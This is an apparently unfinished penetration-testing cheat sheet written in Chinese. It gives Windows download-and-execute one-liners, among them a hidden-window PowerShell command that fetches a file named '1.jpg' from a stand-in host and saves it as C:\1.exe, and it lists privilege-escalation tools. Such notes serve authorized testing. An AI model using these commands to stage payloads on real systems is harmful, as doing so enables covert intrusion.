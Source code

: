 ```yaml
---
layout: post
title: Pentest Note / CheatSheet
---
```


## Linux

## Windows

### 下载执行

在某些低权限情况下只能使用这个命令，使用`-UseBasicParsing`避免调用IE解析DOM

`Invoke-WebRequest -Uri $url -OutFile $outfile -UseBasicParsing`

`powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://example.com/1.jpg','C:\1.exe')`

替代bitsadmin

`Start-BitsTransfer -Source $file -Destination C:\1.exe –Asynchronous`

### 本地提权

#### 可用工具

```
msf post/multi/recon/local_exploit_suggester 
https://github.com/bitsadmin/wesng
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```
